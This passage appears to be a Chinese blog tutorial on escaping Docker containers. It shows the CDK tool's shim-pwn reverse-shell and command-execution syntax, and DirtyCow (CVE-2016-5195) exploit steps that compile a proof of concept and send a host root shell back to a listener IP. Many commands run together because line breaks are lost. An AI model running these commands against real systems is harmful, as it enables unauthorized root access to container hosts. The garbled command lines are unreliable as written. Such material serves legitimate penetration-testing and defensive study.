

```
**利用方法：**

经过以上判断，存在漏洞后。

1、从<https://github.com/cdk-team/CDK/releases下载对应架构的可执行文件，上传到容器并赋权>


- 上传方法：

2、使用
```

可以反弹shell，也可以执行命令reverse shell./cdk run shim-pwn reverse <RHOST> <RPORT>execute command./cdk run shim-pwn "<shell_cmd>"

```
[](https://img2022.cnblogs.com/blog/1964477/202203/1964477-20220324141314257-608976874.png)

### 内核漏洞导致Docker 逃逸

#### ⭐DirtyCow(CVE-2016-5195)脏牛漏洞实现Docker 逃逸

> Docker 与 宿主机共享内核，因此容器需要在存在dirtyCow漏洞的宿主机里

**漏洞简述：**
Dirty Cow（CVE-2016-5195）是Linux内核中的权限提升漏洞，通过它可实现Docker容器逃逸，获得root权限的shell。

**漏洞测试：**
1、环境准备:
docker与宿主机共享内核，因此我们需要存在dirtyCow漏洞的宿主机镜像。
这里，我们使用ubuntu-14.04.5来复现。
2、测试容器下载并运行：
```

git clone https://github.com/gebl/dirtycow-docker-vdso.gitcd dirtycow-docker-vdso/sudo docker-compose run dirtycow /bin/bash

```
3、进入容器，编译POC并执行:
```

cd /dirtycow-vdso/make./0xdeadbeef 203.0.113.1:1234

```
- 

4、在192.168.111.129监听本地端口，成功接收到宿主机反弹的shell。


## 参考

<https://xz.aliyun.com/t/8558>

<https://www.cnblogs.com/xiaozi/p/13423853.html>

<https://blog.csdn.net/w1590191166/article/details/113089994>

<https://xz.aliyun.com/t/8681>

<https://xz.aliyun.com/t/8681>
```
